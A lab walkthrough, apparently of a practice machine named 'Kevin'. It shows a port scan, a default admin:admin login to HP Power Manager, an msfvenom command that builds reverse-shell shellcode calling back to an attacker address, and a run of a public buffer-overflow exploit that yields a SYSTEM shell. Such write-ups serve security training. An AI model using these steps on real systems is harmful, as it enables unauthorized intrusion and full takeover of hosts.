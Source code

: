 # Kevin

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.160.45
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 14:02 +08
Nmap scan report for 192.168.160.45
Host is up (0.17s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
3573/tcp  open  tag-ups-1
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
```

### HP Power Manager --> RCE

Port 80 is running HP Power Manager and it looks vulnerable:

<figure><img src="../../../.gitbook/assets/image (516).png" alt=""><figcaption></figcaption></figure>

`admin:admin` works in logging in:

<figure><img src="../../../.gitbook/assets/image (504).png" alt=""><figcaption></figcaption></figure>

There are a couple of exploits available for this software:

```
$ searchsploit HP Power Manager
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Flying Dog Software Powerslave 4.3 Portalmanager - 'sql_id | php/webapps/23163.txt
Hewlett-Packard (HP) Power Manager Administration - Remote | windows/remote/16785.rb
Hewlett-Packard (HP) Power Manager Administration Power Ma | windows/remote/10099.py
HP Power Manager - 'formExportDataLogs' Remote Buffer Over | cgi/remote/18015.rb
----------------------------------------------------------- ---------------------------------
```

All of them are forms of Buffer Overflow, and I used `10099.py` to exploit it. FIrst, generate the shellcode needed with the bad characters and encoding given in the exploit:

{% code overflow="wrap" %}
```
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.191 LPORT=4444 -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" -e x86/alpha_mixed -f c
```
{% endcode %}

Then, replace the shellcode within the Python script and start a listener port.&#x20;

```
$ python2 10099.py 192.168.160.45
HP Power Manager Administration Universal Buffer Overflow Exploit
ryujin __A-T__ offensive-security.com
[+] Sending evil buffer...
HTTP/1.0 200 OK

[+] Done!
[*] Check your shell at 192.168.160.45:4444 , can take up to 1 min to spawn your shell
```

After running it, we would get a shell as the SYSTEM user:

![](<../../../.gitbook/assets/image (182).png>)
